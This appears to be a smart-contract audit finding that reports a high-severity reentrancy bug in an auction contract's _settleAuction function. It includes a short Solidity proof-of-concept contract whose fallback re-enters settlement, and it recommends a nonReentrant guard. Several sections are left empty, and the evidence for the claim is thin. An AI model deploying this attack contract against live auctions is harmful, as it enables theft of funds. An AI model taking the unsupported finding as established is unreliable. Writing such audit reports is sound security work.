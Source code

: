 Quiet Blush Turkey

High

# Reentrancy Vulnerability in _settleAuction Function

### Summary

The `_settleAuction` function in the auction contracts  processes the settlement of an auction, transferring ETH and NFTs to appropriate recipients and updating auction states. However, the function is vulnerable to a reentrancy attack due to its reliance on external calls that transfer ETH `(_safeTransferETHWithFallback)` and interact with external contracts (streamEscrow.forwardAllAndCreateStream and streamEscrow.forwardAll).

If an attacker deploys a malicious contract as the bidder or manipulates the streamEscrow contract, they could exploit these external calls to reenter the _settleAuction function and manipulate auction states or drain funds.


### Root Cause

```javascript
    function _safeTransferETHWithFallback(address to, uint256 amount) internal {
        if (!_safeTransferETH(to, amount)) {
            IWETH(weth).deposit{ value: amount }();
            IERC20(weth).transfer(to, amount);
        }
    }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

funds drain of the caller

### PoC

1. Deploy this contract
```javascript
contract MaliciousBidder {
    NounsAuctionHouse auctionHouse;

    constructor(address _auctionHouse) {
        auctionHouse = NounsAuctionHouse(_auctionHouse);
    }

    // Fallback function to trigger reentrancy
    fallback() external payable {
        // Reenter `_settleAuction`
        auctionHouse.settleAuction();
    }
}
```
2. Bid in the auction using the MaliciousBidder contract as the bidder.
3. When _settleAuction is executed:
   The _safeTransferETHWithFallback call transfers funds to the MaliciousBidder.
    The fallback function in MaliciousBidder triggers a reentrant call to _settleAuction.
4. Reentrancy allows the attacker to repeatedly call _settleAuction, manipulating auction states or draining funds.

### Mitigation

Add a nonReentrant modifier to _settleAuction to prevent reentrant calls.